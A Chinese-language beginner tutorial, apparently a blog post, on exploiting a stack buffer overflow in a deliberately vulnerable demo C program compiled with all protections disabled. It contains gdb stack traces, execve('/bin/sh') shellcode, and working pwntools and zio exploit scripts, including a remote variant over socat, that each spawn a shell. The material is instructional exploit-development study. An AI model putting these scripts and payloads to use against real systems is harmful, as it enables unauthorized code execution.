gcc -fstack-protector-strong -o Demo Demo.c //更强版本
一开始编译的时候直接把它关了，奏是这么凑不要脸:)
FORTIFY：FORTIFY_SOURCE，增强源码，目前有两种等级，1和2，编译时加上-D_FORTIFY_SOURCE=1或者2即可开启，如果宏为1，则在有strcpy函数的指令周围加上检查缓冲区和待拷贝字符串长度相关的指令，如果宏为2，还会有包括但不仅只有格式化字符串漏洞的检查
NX：No eXecute，Windows下叫DEP，默认开启，会将数据所在的内存页设置为不可执行，当我们滑到Shellcode区，执行的为数据区，不可执行，就会触发异常，也就是说直接让数据区的Shellcode失效
关闭它，对，我们就是要关关关
wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -zexecstack -o Demo Demo.c
查看保护措施，已经妥妥的关了
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : disabled
PIE : disabled
RELRO : Partial
PIE：Position-Independent Executable，Linux下开地址随机化是要不少开销的
RELRO：RELocation Read-Only，官方说法是设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT(Global Offset Table)攻击
以上是对目前Linux上一些比较主流的漏洞缓解机制的简单介绍，接下来我们来思考如何构建EXP
ASLR已经关了，所以在这里我们可以使用硬编码的方式
没溢出情况下，执行完拷贝指令，我们的栈布局如下
gdb-peda$ stack 20
0000| 0xbfffef00 --> 0xbfffef14 ("AAAA")
0004| 0xbfffef04 --> 0xbfffef44 ("AAAA")
0008| 0xbfffef08 --> 0xb7fbb000 --> 0x1b1db0
0012| 0xbfffef0c --> 0xfd57
0016| 0xbfffef10 --> 0xffffffff
0020| 0xbfffef14 ("AAAA")
0024| 0xbfffef18 --> 0xb7e15d00 --> 0x19b
0028| 0xbfffef1c --> 0xb7fd6858 --> 0xb7e09000 --> 0x464c457f
0032| 0xbfffef20 --> 0x8000
0036| 0xbfffef24 --> 0xb7fbb000 --> 0x1b1db0
0040| 0xbfffef28 --> 0xbfffef58 --> 0x0
0044| 0xbfffef2c --> 0x804849c (<main+50>: add esp,0x10)
0048| 0xbfffef30 --> 0xbfffef44 ("AAAA")
0052| 0xbfffef34 --> 0x0
0056| 0xbfffef38 --> 0xb7e37a50 (<__new_exitfn+16>: add ebx,0x1835b0)
0060| 0xbfffef3c --> 0x80484fb (<__libc_csu_init+75>: add edi,0x1)
0064| 0xbfffef40 --> 0x1
0068| 0xbfffef44 ("AAAA")
0072| 0xbfffef48 --> 0x0
0076| 0xbfffef4c --> 0x0
此时我们的EBP是0xbfffef28
EBP: 0xbfffef28 --> 0xbfffef58 --> 0x0
接下来到leave前的指令会将栈顶降低0x10字节
gdb-peda$ stack 10
0000| 0xbfffef10 --> 0xffffffff
0004| 0xbfffef14 ("AAAA")
0008| 0xbfffef18 --> 0xb7e15d00 --> 0x19b
0012| 0xbfffef1c --> 0xb7fd6858 --> 0xb7e09000 --> 0x464c457f
0016| 0xbfffef20 --> 0x8000
0020| 0xbfffef24 --> 0xb7fbb000 --> 0x1b1db0
0024| 0xbfffef28 --> 0xbfffef58 --> 0x0
0028| 0xbfffef2c --> 0x804849c (<main+50>: add esp,0x10)
0032| 0xbfffef30 --> 0xbfffef44 ("AAAA")
0036| 0xbfffef34 --> 0x0
leave指令等效于
mov esp, ebp
pop ebp
先把EBP赋值给ESP，这样当前的ESP就指向0xbfffef28，在将ESP指向的值弹给EBP，这个指向的值为前一函数的EBP，同时pop指令降低了0x04字节的栈顶
gdb-peda$ stack 10
0000| 0xbfffef2c --> 0x804849c (<main+50>: add esp,0x10)
0004| 0xbfffef30 --> 0xbfffef44 ("AAAA")
0008| 0xbfffef34 --> 0x0
0012| 0xbfffef38 --> 0xb7e37a50 (<__new_exitfn+16>: add ebx,0x1835b0)
0016| 0xbfffef3c --> 0x80484fb (<__libc_csu_init+75>: add edi,0x1)
0020| 0xbfffef40 --> 0x1
0024| 0xbfffef44 ("AAAA")
0028| 0xbfffef48 --> 0x0
0032| 0xbfffef4c --> 0x0
0036| 0xbfffef50 --> 0xb7fbb3dc --> 0xb7fbc1e0 --> 0x0
此时只需要执行RETN即可完成函数的返回，返回的地址为ESP指向的地址
0000| 0xbfffef2c --> 0x804849c (<main+50>: add esp,0x10)
单步执行，跳回main()函数领空
[-------------------------------------code-------------------------------------]
0x8048493 <main+41>: lea eax,[ebp-0x14]
0x8048496 <main+44>: push eax
0x8048497 <main+45>: call 0x804843b <Overflow>
=> 0x804849c <main+50>: add esp,0x10
0x804849f <main+53>: mov eax,0x0
0x80484a4 <main+58>: mov ecx,DWORD PTR [ebp-0x4]
0x80484a7 <main+61>: leave
0x80484a8 <main+62>: lea esp,[ecx-0x4]
同时注意栈变化，0x04字节的数据被弹出，弹到EIP寄存器
[------------------------------------stack-------------------------------------]
0000| 0xbfffef30 --> 0xbfffef44 ("AAAA")
0004| 0xbfffef34 --> 0x0
0008| 0xbfffef38 --> 0xb7e37a50 (<__new_exitfn+16>: add ebx,0x1835b0)
0012| 0xbfffef3c --> 0x80484fb (<__libc_csu_init+75>: add edi,0x1)
0016| 0xbfffef40 --> 0x1
0020| 0xbfffef44 ("AAAA")
0024| 0xbfffef48 --> 0x0
0028| 0xbfffef4c --> 0x0
对于程序的返回过程，我们已经弄清楚了，结合上面的溢出分析，当我们的数据覆盖了EBP后面4字节数据，这个位置也叫作返回地址或者EIP
那么如果我们硬编码一个地址，这个地址指向我们输入数据的首地址，它会不会跳过去呢？
此时ASLR已关闭，可以硬编码，首先我们把前面的空间全都填充了，包括EBP也都填充A，然后在返回地址填充缓冲区里字符串首地址，要注意小端序的问题
先填充28个A进去，刚好可以覆盖到返回地址，同时注意目标地址再缓冲区的位置，由于我们输入的字符串长度原因，此时目标地址相对前面测试时的地址要高，但是相对地址是不会变的
gdb-peda$ stack 10
0000| 0xbfffeef0 --> 0xbfffef04 --> 0xbfffefa4 --> 0xb24f3e8f
0004| 0xbfffeef4 --> 0xbfffef30 ('A' <repeats 28 times>)
0008| 0xbfffeef8 --> 0xbfffef10 --> 0xffffffff
0012| 0xbfffeefc --> 0x8048254 ("__libc_start_main")
0016| 0xbfffef00 --> 0x0
0020| 0xbfffef04 --> 0xbfffefa4 --> 0xb24f3e8f
0024| 0xbfffef08 --> 0xb7fbb000 --> 0x1b1db0
0028| 0xbfffef0c --> 0xfd57
0032| 0xbfffef10 --> 0xffffffff
0036| 0xbfffef14 --> 0x2f ('/')
`
可以使用Python来完成小端序的转换
>>> print repr(struct.pack("<I", 0xbfffef04))
'\x04\xef\xff\xbf'
修改输入的字符串
char temp[32] = "AAAAAAAAAAAAAAAAAAAAAAAA\x04\xef\xff\xbf";
编译运行
wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -zexecstack -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
AAAAAAAAAAAAAAAAAAAAAAAA���
段错误 (核心已转储)
执行完拷贝指令，此时栈布局如下，返回地址已被我们覆盖
gdb-peda$ stack 20
0000| 0xbfffeef0 --> 0xbfffef04 ('A' <repeats 24 times>, "\004\357\377\277")
0004| 0xbfffeef4 --> 0xbfffef30 ('A' <repeats 24 times>, "\004\357\377\277")
0008| 0xbfffeef8 --> 0xbfffef10 ('A' <repeats 12 times>, "\004\357\377\277")
0012| 0xbfffeefc --> 0x8048254 ("__libc_start_main")
0016| 0xbfffef00 --> 0x0
0020| 0xbfffef04 ('A' <repeats 24 times>, "\004\357\377\277")
0024| 0xbfffef08 ('A' <repeats 20 times>, "\004\357\377\277")
0028| 0xbfffef0c ('A' <repeats 16 times>, "\004\357\377\277")
0032| 0xbfffef10 ('A' <repeats 12 times>, "\004\357\377\277")
0036| 0xbfffef14 ("AAAAAAAA\004\357\377\277")
0040| 0xbfffef18 ("AAAA\004\357\377\277")
0044| 0xbfffef1c --> 0xbfffef04 ('A' <repeats 24 times>, "\004\357\377\277")
0048| 0xbfffef20 --> 0xbfffef00 --> 0x0
0052| 0xbfffef24 --> 0xb7fbb000 --> 0x1b1db0
0056| 0xbfffef28 --> 0xb7fb9244 --> 0xb7e21020 (<_IO_check_libio>: call 0xb7f28999 <__x86.get_pc_thunk.ax>)
0060| 0xbfffef2c --> 0xb7e210ec (<init_cacheinfo+92>: test eax,eax)
0064| 0xbfffef30 ('A' <repeats 24 times>, "\004\357\377\277")
0068| 0xbfffef34 ('A' <repeats 20 times>, "\004\357\377\277")
0072| 0xbfffef38 ('A' <repeats 16 times>, "\004\357\377\277")
0076| 0xbfffef3c ('A' <repeats 12 times>, "\004\357\377\277")
单步走完后面的指令，此时EBP已被我们覆盖成0x41414141，返回地址也被覆盖成了字符串首地址

我们单步执行，EIP被我们劫持到字符串的首地址

当然这里一堆inc ecx是我们用于测试的无意义指令，如果我们输入的字符串是有意义的指令呢？
因为Shellcode长度原因，我们把缓冲区开大一点，也更符合真实环境
#include <stdio.h>
#include <string.h>
void Overflow(char temp[])
{
char buffer[32];
strcpy(buffer, temp);
printf("%s\n", buffer);
}
int main()
{
char temp[64] = "AAAA";
Overflow(temp);
return 0;
}
运行到拷贝指令，仔细观察EBP和第一个参数

0xbfffeed0是目标字符串在缓冲区的起始位置，距离EBP有44字节的长度
修改输入的字符串
char temp[64] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\xd0\xee\xff\xbf";
拷贝后观察栈的情况，可以看到EBP已经被BBBB覆盖
gdb-peda$ stack 30
0000| 0xbfffeec0 --> 0xbfffeed0 ('A' <repeats 40 times>, "BBBB\320\356\377\277")
0004| 0xbfffeec4 --> 0xbfffef10 ('A' <repeats 40 times>, "BBBB\320\356\377\277")
0008| 0xbfffeec8 --> 0xb7fff918 --> 0x0
0012| 0xbfffeecc --> 0xf0b2ff
0016| 0xbfffeed0 ('A' <repeats 40 times>, "BBBB\320\356\377\277")
0020| 0xbfffeed4 ('A' <repeats 36 times>, "BBBB\320\356\377\277")
0024| 0xbfffeed8 ('A' <repeats 32 times>, "BBBB\320\356\377\277")
0028| 0xbfffeedc ('A' <repeats 28 times>, "BBBB\320\356\377\277")
0032| 0xbfffeee0 ('A' <repeats 24 times>, "BBBB\320\356\377\277")
0036| 0xbfffeee4 ('A' <repeats 20 times>, "BBBB\320\356\377\277")
0040| 0xbfffeee8 ('A' <repeats 16 times>, "BBBB\320\356\377\277")
0044| 0xbfffeeec ('A' <repeats 12 times>, "BBBB\320\356\377\277")
0048| 0xbfffeef0 ("AAAAAAAABBBB\320\356\377\277")
0052| 0xbfffeef4 ("AAAABBBB\320\356\377\277")
0056| 0xbfffeef8 ("BBBB\320\356\377\277")
0060| 0xbfffeefc --> 0xbfffeed0 ('A' <repeats 40 times>, "BBBB\320\356\377\277")
0064| 0xbfffef00 (0xbfffef00)
0068| 0xbfffef04 --> 0xbfffefa4 --> 0xb5e79f4a
0072| 0xbfffef08 --> 0xb7fbb000 --> 0x1b1db0
0076| 0xbfffef0c --> 0xfd57
0080| 0xbfffef10 ('A' <repeats 40 times>, "BBBB\320\356\377\277")
0084| 0xbfffef14 ('A' <repeats 36 times>, "BBBB\320\356\377\277")
0088| 0xbfffef18 ('A' <repeats 32 times>, "BBBB\320\356\377\277")
0092| 0xbfffef1c ('A' <repeats 28 times>, "BBBB\320\356\377\277")
0096| 0xbfffef20 ('A' <repeats 24 times>, "BBBB\320\356\377\277")
缓冲区已经开的足够大了，我们填充一段有效的指令，这段代码从蒸米那里抄来的，都差不多，不要有bad char就行
#include <stdio.h>
#include <string.h>
void Overflow(char temp[])
{
char buffer[32];
strcpy(buffer, temp);
printf("%s\n", buffer);
}
int main()
{
//execve("/bin/sh");
char temp[64] = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xd0\xee\xff\xbf";
Overflow(temp);
return 0;
}
gdb调试跑起来，成功返回了一个shell
gdb-peda$ r
Starting program: /home/wnagzihxain/Demo
1���Qh//shh/bin���
���������������������������
process 5854 is executing new program: /bin/dash
$ id
[New process 5858]
process 5858 is executing new program: /usr/bin/id
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
uid=1000(wnagzihxain) gid=1000(wnagzihxain) groups=1000(wnagzihxain),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ [Inferior 2 (process 5858) exited normally]
Warning: not running or target is remote
不错，鼓掌，撒花~~
我们不使用gdb调试模式，直接运行
wnagzihxain@toT0C:~$ ./Demo
1���Qh//shh/bin���
���������������������������
段错误 (核心已转储)
还是一样的返回地址，还是一样的Shellcode，但是为什么这里就出错了呢？
原因是因为gdb会影响程序的实际地址，在gdb调试模式下，我们看到的地址跟真实环境下是不一样的(本段出自蒸米的《一步一步学ROP之linux_x86篇》)
所以测试出溢出点后，我们就需要找到buffer在内存的真实地址
找到真实地址有两种比较常用的方法，一个是core dump，另一个是attach
先来使用core dump，这个需要开启，这里还是抄蒸米的，core.%t真好用
wnagzihxain@toT0C:~$ ulimit -c unlimited
wnagzihxain@toT0C:~$ sudo sh -c 'echo "/home/wnagzihxain/core.%t" > /proc/sys/kernel/core_pattern'
运行崩溃，记录崩溃现场
wnagzihxain@toT0C:~$ ./Demo
1���Qh//shh/bin���
���������������������������
段错误 (核心已转储)
查看生成的core文件
wnagzihxain@toT0C:~$ ls -l core.1491475716
-rw------- 1 wnagzihxain wnagzihxain 360448 4月 6 18:48 core.1491475716
gdb打开core文件，查看一下首地址的数据还是很有必要的，可以跟蒸米一样，用x/10s查看字符串
wnagzihxain@toT0C:~$ gdb Demo core.1491475716
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.04) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law. Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from Demo...(no debugging symbols found)...done.
[New LWP 6173]
Core was generated by `./Demo'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0 0xbfffeed0 in ?? ()
gdb-peda$ x/x $sp-48
0xbfffef20: 0x31
gdb-peda$ x/16x $sp-48
0xbfffef20: 0x31 0xc9 0xf7 0xe1 0x51 0x68 0x2f 0x2f
0xbfffef28: 0x73 0x68 0x68 0x2f 0x62 0x69 0x6e 0x89
确认好地址是0xbfffef20，使用小端序写入Shellcode，直接运行，这下妥妥的
wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -zexecstack -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
1���Qh//shh/bin���
����������������������� ���
$ id
uid=1000(wnagzihxain) gid=1000(wnagzihxain) groups=1000(wnagzihxain),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ whoami
wnagzihxain
$
至于第二种方法gdb attach，稍微麻烦点，attach上去之后再找到目标地址就行了
wnagzihxain@toT0C:~$ ps -ax | grep Demo
5840 pts/19 T 0:00 gdb Demo
6307 pts/19 S+ 0:00 ./Demo
6341 pts/20 S+ 0:00 grep --color=auto Demo
虽然这一篇是简单的入门，但是我们不能乱来啊，尼玛谁程序自带一段Shellcode啊，你搞攻击也要按照基本法啊！！！！！！
还有谁的测试溢出点是靠目测的。。。。。。
再次你也得搞个手动输入数据哇
本来想接着用上面的代码的，但是考虑到有些细节蒸米师傅没写的我可以多写写，大家可以互相参考，所以这里使用蒸米的代码演示一波
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
void Overflow()
{
char buffer[128];
read(STDIN_FILENO, buffer, 256);
}
int main()
{
Overflow();
write(STDOUT_FILENO, "Hello,World\n", 13);
return 0;
}
测试溢出点，这里介绍个新方法，蒸米那里写的是pattern.py，这里可以使用peda的pattern create直接生成，长度随意，够大就行
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
然后r，到输入的地方，把上面的数据拷贝进去

注意最后一句，peda帮我们把异常的地方输出来了，这里就是返回地址的数据
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41416d41 in ?? ()
根据这个数据，我们找到需要覆盖长度
gdb-peda$ pattern offset 0x41416d41
1094806849 found at offset: 140
我们先来介绍一个Shellcode开发工具：pwntools
安装
root@toT0C:/home/wnagzihxain# pip install pwn
......
>>> import pwn
[!] Pwntools does not support 32-bit Python. Use a 64-bit release.
>>> pwn.asm("xor eax,eax")
'1\xc0'
>>>
写一个简单的溢出脚本，然后使用core dump数据找到真实的buffer起始地址，之所以不直接使用手动输入的方法找buffer起始地址是因为在我这测试，两种方法总会有偏差，以使用pwntools的Poc测试出来地址为准
#!/usr/bin/env python
from pwn import *
attack = process('./Demo')
payload = '\x90' * 140 + 'AAAA'
attack.send(payload)
attack.interactive()
运行后生成core dump数据
gdb-peda$ x/50x $esp-144
0xbfffef00: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffef10: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffef20: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffef30: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffef40: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffef50: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffef60: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffef70: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffef80: 0x90909090 0x90909090 0x90909090 0x41414141
0xbfffef90: 0xb7fbb3dc 0xbfffefb0 0x00000000 0xb7e21637
0xbfffefa0: 0xb7fbb000 0xb7fbb000 0x00000000 0xb7e21637
0xbfffefb0: 0x00000001 0xbffff044 0xbffff04c 0x00000000
0xbfffefc0: 0x00000000 0x00000000
buffer起始地址是0xbfffef00，一般开发Shellcode的时候，要避免这些00，会造成某些函数在操作Shellcode时发生截断
所以我们这里把跳回的地址改为加4字节0xbfffef04，前面的四字节空白使用\x90填充
来完成EXP的编写
#!/usr/bin/env python
from pwn import *
attack = process('./Demo')
retn = 0xbfffef04
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
payload = '\x90' * 4 + shellcode + '\x90' * (136 - len(shellcode)) + p32(retn)
attack.send(payload)
attack.interactive()
执行，返回一个Shell
wnagzihxain@toT0C:~$ python Exp.py
[!] Pwntools does not support 32-bit Python. Use a 64-bit release.
[+] Starting local process './Demo': pid 2395
[*] Switching to interactive mode
$ id
uid=1000(wnagzihxain) gid=1000(wnagzihxain) groups=1000(wnagzihxain),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ whoami
wnagzihxain
$
最后，为了模拟远程攻击，使用socat绑定本机端口
安装socat
root@toT0C:/home/wnagzihxain# sudo apt-get install socat
新开Terminal，运行后放一边
wnagzihxain@toT0C:~$ socat TCP-LISTEN:23333,fork EXEC:./Demo
修改崩溃测试脚本
#!/usr/bin/env python
from pwn import *
attack = remote('127.0.0.1', 23333)
payload = '\x90' * 140 + 'AAAA'
attack.send(payload)
attack.interactive()
使用gdb调试该core文件，找到buffer起始地址是0xbfffee50
gdb-peda$ x/50x $esp-144
0xbfffee50: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffee60: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffee70: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffee80: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffee90: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffeea0: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffeeb0: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffeec0: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffeed0: 0x90909090 0x90909090 0x90909090 0x41414141
0xbfffeee0: 0xb7fbb3dc 0xbfffef00 0x00000000 0xb7e21637
0xbfffeef0: 0xb7fbb000 0xb7fbb000 0x00000000 0xb7e21637
0xbfffef00: 0x00000001 0xbfffef94 0xbfffef9c 0x00000000
0xbfffef10: 0x00000000 0x00000000
修改EXP
#!/usr/bin/env python
from pwn import *
attack = remote('127.0.0.1', 23333)
retn = 0xbfffee50
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
payload = '\x90' * 4 + shellcode + '\x90' * (136 - len(shellcode)) + p32(retn)
attack.send(payload)
attack.interactive()
最终的远程攻击效果
wnagzihxain@toT0C:~$ python Exp.py
[!] Pwntools does not support 32-bit Python. Use a 64-bit release.
[+] Opening connection to 127.0.0.1 on port 23333: Done
[*] Switching to interactive mode
$ id
uid=1000(wnagzihxain) gid=1000(wnagzihxain) groups=1000(wnagzihxain),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$
蛮好蛮好，除了pwntools外，还有一个工具：zio
from zio import *
attack = zio(('127.0.0.1', 23333))
retn = 0xbfffee50
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
payload = '\x90' * 4 + shellcode + '\x90' * (136 - len(shellcode)) + l32(retn)
attack.write(payload)
attack.interact()
效果
wnagzihxain@toT0C:~$ python Exp.py
����1���Qh//shh/bin���
�������������������������������������������������������������������������������������������������������������������P���
id
uid=1000(wnagzihxain) gid=1000(wnagzihxain) groups=1000(wnagzihxain),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
个人比较喜欢pwntools
关了所有的保护机制还用了硬编码来写Shellcode，恥ずかしい思いをする
Android核心系统对缓解技术的支持历史，从上面提到的那本权威指南里抄出来的，手敲出来的